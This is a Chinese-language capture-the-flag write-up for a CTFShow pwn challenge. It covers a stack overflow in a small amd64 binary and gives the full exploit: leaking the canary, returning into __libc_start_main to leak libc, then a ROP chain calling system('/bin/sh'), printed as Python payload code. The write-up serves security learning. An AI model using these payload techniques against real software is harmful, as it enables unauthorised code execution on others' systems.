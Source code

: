 ## PWN_MengxinStack (526pt)

- 题目描述：
    
    > none
    
- 题目附件：[mengxin](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/CTFShow-36D/pwn/mengxin/mengxin)

- 考察点：ret2libc_start_main

- 难度：中等

### 程序分析

#### 保护机制

```c
[*] '/home/taqini/Downloads/36D/mengxin/mengxin'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

>  `Partial RELRO`  可以修改GOT表，不过这题好像用不上

#### 栈溢出

```c
int __cdecl main(int argc, const char **argv, const char **envp){
  int v3; // ST0C_4
  char buf; // [rsp+10h] [rbp-40h]
  unsigned __int64 v6; // [rsp+38h] [rbp-18h]

  v6 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  puts("She said: hello?");
  v3 = read(0, &buf, 0x100uLL) - 1;
  printf("%s", &buf);
  read(0, &buf, 0x100uLL);
  puts("You had me at hello.");
  return 0;
}
```

有两个`read(0, &buf, 0x100uLL)`，第一个读完了打印`buf`，可以用来泄漏`canary`，第二个用来覆盖返回地址。

### 解题思路

#### 泄漏canary

要想覆盖返回地址，就需要先泄漏canary，这个可以用第一次read实现。

```c
  char buf; // [rsp+10h] [rbp-40h]
  unsigned __int64 v6; // [rsp+38h] [rbp-18h]
  v6 = __readfsqword(0x28u);
```

从这里可以看出，`v6`是`canary`，位于`buf`后方，offset=0x38-0x10=`40`，但是canary的最后一个字节是`\x00`，因此可以向`buf`中写`41`个字节，打印的时候带出`cancay`，然后还原末尾的`\x00`就是canary的实际值。

#### 泄漏libc

得到`canary`之后，要想完成攻击，还需要泄漏libc，这个可以用同样的方法，泄漏栈中的返回地址，即`__libc_start_main+243`

但是泄漏完canary后，程序中已经没有可以用来输出的函数了，因此要想办法重复利用`printf`来泄漏libc

####  ret2libc_start_main

这个可以通过第二个read，覆盖返回地址`__libc_start_main+243`的最后一个字节，ret2csu，重新调用main函数。

```nasm
.text:0000000000020803    mov     [rsp+0B8h+var_48], rax
.text:0000000000020808    lea     rax, [rsp+0B8h+var_98]
.text:000000000002080D    mov     fs:300h, rax
.text:0000000000020816    mov     rax, cs:environ_ptr_0
.text:000000000002081D    mov     rsi, [rsp+0B8h+var_B0]
.text:0000000000020822    mov     edi, [rsp+0B8h+var_A4]
.text:0000000000020826    mov     rdx, [rax]
.text:0000000000020829    mov     rax, [rsp+0B8h+var_A0]
.text:000000000002082E    call    rax
.text:0000000000020830
.text:0000000000020830 loc_20830:  ; CODE XREF: __libc_start_main+134↓j
.text:0000000000020830    mov     edi, eax
.text:0000000000020832    call    exit
```

`0x20830`这个是返回地址，他上面那条`call rax`就是去调用`main`，所以把返回地址稍微往上改一点，改成`0x020816`，就可以再次调用`main`

#### getshell

第二次泄漏完libc就可以常规的覆盖返回地址为`system("/bin/sh")`了

总体流程如下：

```python
# round1
sea('She said: hello?\n',cyclic(41))
ru(cyclic(41))
canary = uu64('\0'+rc(7))
info_addr('canary',canary)

payload = cyclic(40)+p64(canary)
payload+= cyclic(24)+'\x16' # ret2libc_start_main
se(payload)
```

> 泄漏canary、 ret2libc_start_main

```python
# round2
sea('She said: hello?\n',cyclic(72))
ru(cyclic(72))
libc_start_main_ret = uu64(rc(6))
libcbase = libc_start_main_ret - 0x20830

prdi = 0x0000000000021102 + libcbase # pop rdi ; ret
system = libc.sym['system'] + libcbase
binsh = libc.search('/bin/sh').next() + libcbase

pl2 = cyclic(40)+p64(canary)
pl2+= cyclic(24)
pl2+= p64(prdi) + p64(binsh) + p64(system)
sl(pl2)
```

> 泄漏libc，rop执行`system("/bin/sh")`

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/CTFShow-36D/pwn/mengxin) 

